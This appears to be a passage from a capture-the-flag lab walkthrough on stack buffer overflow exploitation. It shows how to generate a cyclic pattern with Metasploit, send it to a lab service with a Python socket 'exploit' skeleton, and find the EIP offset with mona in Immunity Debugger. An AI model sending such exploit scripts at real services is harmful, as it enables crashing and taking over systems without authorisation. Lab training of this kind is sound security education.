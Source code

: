 Finding the `EIP` offset requires creating a pattern with the length that was required to crash the program. For 
example, by using Metasploit and adding 400 bytes to the 2000 that crashed the server:

```text
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2400
```

Edit the python payload below and add the cyclic pattern to the payload variable:

```text
import socket

ip = "10.10.129.182"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

Name it `exploit.py` and launch it.

```text
python3 exploit.py
```

After the Python exploit crashed the script, go to the Immunity debugger and run the `mona` command to find the EIP 
offset:

```text
!mona findmsp -distance 2000
```

This should open the Log window but if it doesn’t then open it manually and look for the following entry in the output.

```text
EIP contains normal pattern : ... (offset 1978)
```
